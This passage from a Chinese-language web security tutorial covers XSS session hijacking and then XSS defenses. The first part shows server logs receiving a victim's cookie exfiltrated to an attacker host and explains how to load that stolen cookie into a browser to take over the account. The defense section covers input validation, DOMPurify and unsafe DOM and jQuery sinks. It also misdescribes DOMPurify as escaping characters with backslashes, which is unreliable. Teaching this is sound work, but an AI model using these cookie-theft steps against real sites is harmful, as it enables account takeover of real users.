 现在，我们等待受害者访问易受攻击的页面并查看我们的XSS负载。一旦他们这样做，我们将在服务器上收到两个请求，一个用于script.js，这反过来会带着Cookie值发出另一个请求：

```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

如前所述，我们直接在终端获取Cookie值。但是，由于我们准备了PHP脚本，我们还会获得cookies.txt文件，其中有清晰的Cookie日志：

```
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

最后，我们可以在login.php页面上使用这个Cookie来访问受害者的账户。为此，一旦我们导航到/hijacking/login.php，我们可以在Firefox中按Shift+F9显示开发者工具中的存储栏。然后，我们可以点击右上角的+按钮并添加我们的Cookie，其中Name是=之前的部分，Value是我们窃取的Cookie中=之后的部分

## 防御

> 预防 XSS 漏洞最重要的一点是在前端和后端进行适当的输入清理和验证。

比如我们看到如果电子邮件格式无效，Web 应用程序将不允许我们提交表单。这是通过以下 JavaScript 代码实现的：

```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```

可以看到，这段代码正在测试`email`输入字段并返回`true`、`false`，显示是否符合电子邮件格式的正则表达式验证。

除了输入验证之外，我们还应始终确保不允许任何包含 JavaScript 代码的输入，方法是转义所有特殊字符。为此，我们可以使用[DOMPurify](https://github.com/cure53/DOMPurify) JavaScript 库，如下所示：

```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

这将用反斜杠转义任何特殊字符`\`，这有助于确保用户不会发送任何带有特殊字符的输入（如 JavaScript 代码），从而可以防止 DOM XSS 等漏洞。

应该始终确保永远不会在某些 HTML 标签内直接使用用户输入，例如：

1. JavaScript 代码`<script></script>`
2. CSS 样式代码`<style></style>`
3. 标签/属性字段`<div name='INPUT'></div>`
4. HTML 注释`<!-- -->`

如果用户输入符合上述任何示例，则可能会注入恶意 JavaScript 代码，从而可能导致 XSS 漏洞。此外，我们还应避免使用允许更改 HTML 字段原始文本的 JavaScript 函数，例如：

- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`

以及以下 jQuery 函数：

- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`
